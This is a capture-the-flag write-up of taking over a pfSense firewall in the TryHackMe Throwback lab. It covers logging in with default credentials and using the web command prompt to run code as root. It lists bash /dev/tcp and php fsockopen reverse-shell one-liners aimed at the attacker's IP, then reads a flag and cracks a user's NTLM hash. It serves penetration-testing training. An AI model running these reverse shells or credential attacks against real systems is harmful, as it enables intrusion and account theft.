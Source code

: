 

# recon
```console
$ sudo ./pymap.py -t 10.200.11.138 -A
kali@kali:~$ sudo /opt/pymap.py -t 10.200.11.138
                                                    
@@@@@@@   @@@ @@@  @@@@@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@  @@@ @@@  @@@@@@@@@@@  @@@@@@@@  @@@@@@@@  
@@!  @@@  @@! !@@  @@! @@! @@!  @@!  @@@  @@!  @@@  
!@!  @!@  !@! @!!  !@! !@! !@!  !@!  @!@  !@!  @!@  
@!@@!@!    !@!@!   @!! !!@ @!@  @!@!@!@!  @!@@!@!   
!!@!!!      @!!!   !@!   ! !@!  !!!@!!!!  !!@!!!    
!!:         !!:    !!:     !!:  !!:  !!!  !!:       
:!:         :!:    :!:     :!:  :!:  !:!  :!:       
 ::          ::    :::     ::   ::   :::   ::       
 :           :      :      :     :   : :   :        
Author: kuroHat
Github: https://github.com/gu2rks


[+] Port scanning...
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
[+] Enumerating open ports...

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-title: Did not follow redirect to https://10.200.11.138/
|_https-redirect: ERROR: Script execution failed (use -d to debug)


PORT   STATE SERVICE VERSION
53/tcp open  domain  (generic dns response: REFUSED)
SF-Port53-TCP:V=7.80%I=7%D=11/2%Time=5FA07007%P=x86_64-pc-linux-gnu%r(DNSS
SF:tatusRequestTCP,E,"\0\x0c\0\0\x90\x05\0\0\0\0\0\0\0\0");


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|_  4096 38:04:a0:a1:d0:e6:ab:d9:7d:c0:da:f3:66:bf:77:15 (RSA)


PORT    STATE SERVICE VERSION
443/tcp open  https?
```
- http -> redirect to https -> **pfSense**

## web 443 pfSense
- admin cerdential `admin:pfsense` got from googling default cerdential [link](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html)

Most of the time admin panel have a fuction that allow admin to execute a command on the server. I guess pfsense might offer it to. I then google `pfsense execute command on web` and it give me this [link](https://docs.netgate.com/pfsense/en/latest/diagnostics/command-prompt.html), BINGO!!

So let visit Diagnostics -> command-prompt. It seem like it allows us to excetue both php+shell commad. Let try if php work by executing 
`system('ping <kali_ip> -c 5');`. On kali run `tcpdump` to capture some `icmp` packets.
```console
kali@kali:~$ sudo tcpdump -i tun0 icmp
18:30:36.545831 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 2, length 64
18:30:36.545856 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 2, length 64
18:30:37.579047 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 3, length 64
18:30:37.579096 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 3, length 64
18:30:38.695756 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 4, length 64
18:30:38.695812 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 4, length 64
```
And ofc, it works!! btw, there is no need to do this but I just try to make it as a habbit. some time you can see result from executing code, this is good way to try if it work. I learned from **IPPSEC**.

Also, we can execute `Execute Shell Command` let try `id`
```
uid=0(root) gid=0(wheel) groups=0(wheel)
```
Wow, pfsense if run as root... what a luck. let spawn a reverse shell! I tired different reverse shell from [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)
```
bash -i >& /dev/tcp/10.50.9.18/6969 0>&1
php -r '$sock=fsockopen("10.50.9.18",6969);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.50.9.18",6969);system("/bin/sh -i <&3 >&3 2>&3");'
```
none of the above works. So I use php-reverse-shell.php which is pre-install in kali. Just copy+paste the code `Execute PHP Commands`. On kali
```console
[10.50.9.18]-kali@kali:~/THM/throwback$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.50.9.18] from (UNKNOWN) [10.200.11.138] 64182
FreeBSD THROWBACK-FW01.THROWBACK.local 11.3-STABLE FreeBSD 11.3-STABLE #239 885b1ed26b6(factory-RELENG_2_4_5): Tue Jun  2 17:53:42 EDT 2020     root@buildbot1-nyi.netgate.com:/build/factory-crossbuild-245-amd64/obj/amd64/kkVaWThR/build/factory-crossbuild-245-amd64/sources/FreeBSD-src/sys/pfSense  amd64
11:43PM  up 27 mins, 2 users, load averages: 0.50, 0.55, 0.49
USER       TTY      FROM                                      LOGIN@  IDLE WHAT
root       u0       -                                        11:18PM    25 /bi 
root       v0       -                                        11:18PM    25 /bi 
uid=0(root) gid=0(wheel) groups=0(wheel)
sh: can't access tty; job control turned off
```
now go grab root flag.


There are 1 more flag on this firewall. from THM flag submission said *log flag*. 
```console
# pwd
/
# cd /var/log
# ls
dhcpd.log
dmesg.boot
filter.log
flag.txt
gateways.log
ipsec.log
l2tps.log
lastlog
login.log
nginx
nginx.log
ntp
ntpd.log
openvpn.log
poes.log
portalauth.log
ppp.log
relayd.log
resolver.log
routing.log
system.log
userlog
utx.lastlogin
utx.log
vpn.log
watchdogd.log
wireless.log
```
there are 2 interesting logs here
1. flag.txt
2. login.log
let `cat` it then
```console
# cat flag.txt
TBH{flag}
# cat login.log
Last Login 8/9/2020 15:51 -- HumphreyW:1c13639dba96c7b53d26f7d00956a364
```
Using [crackstation](https://crackstation.net/) to crack the hash
`1c13639dba96c7b53d26f7d00956a364	NTLM	securitycenter`